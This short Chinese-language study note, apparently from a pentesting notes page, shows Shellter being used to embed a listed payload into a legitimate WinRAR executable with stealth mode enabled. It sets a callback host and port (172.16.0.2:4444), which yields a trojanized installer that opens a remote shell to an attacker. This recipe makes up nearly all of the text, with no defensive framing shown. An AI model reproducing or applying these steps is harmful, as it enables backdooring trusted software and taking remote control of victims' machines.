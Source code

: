 ![image-20230123071123666](../../images//image-20230123071123666.png)

shellter的使用：

```
Choose Operation Mode - Auto/Manual (A/M/H): A
PE Target: /root/winrar.exe
Enable Stealth Mode? (Y/N/H): Y
Use a listed payload or custom? (L/C/H): L
Select payload by index: 1
SET LHOST: 172.16.0.2
SET LPORT: 4444
```

![image-20230123071407957](../../images//image-20230123071407957.png)

![image-20230123071600108](../../images//image-20230123071600108.png)
